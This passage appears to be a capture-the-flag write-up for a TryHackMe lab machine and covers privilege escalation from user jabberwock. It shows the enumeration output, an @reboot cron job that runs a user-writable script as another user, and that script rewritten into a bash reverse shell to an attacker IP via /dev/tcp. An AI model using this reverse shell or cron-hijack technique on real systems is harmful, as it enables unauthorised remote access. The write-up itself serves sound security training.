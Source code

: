 
- The first flag!

# jabberwock

- Linpeas.sh shows nothing really promising.

- There are a ton of users

```shell
jabberwock@looking-glass:~$ ls /home
alice  humptydumpty  jabberwock  tryhackme  tweedledee  tweedledum
```

- After going through my linux privEsc check list these are the promising things:

```shell
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
jabberwock@looking-glass:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
jabberwock@looking-glass:~$ cat twasBrillig.sh 
wall $(cat /home/jabberwock/poem.txt)
```

- We know that jabberwock can reboot as root, upon reboot `tweedledum` will execute `twasBrillig.sh`.

- We can modify `twasBrillig.sh` so it gives us a shell as `tweedledum`!

```shell
jabberwock@looking-glass:~$ cat twasBrillig.sh 
bash -I >& /dev/tcp/10.2.51.175/4444 0>&1
```
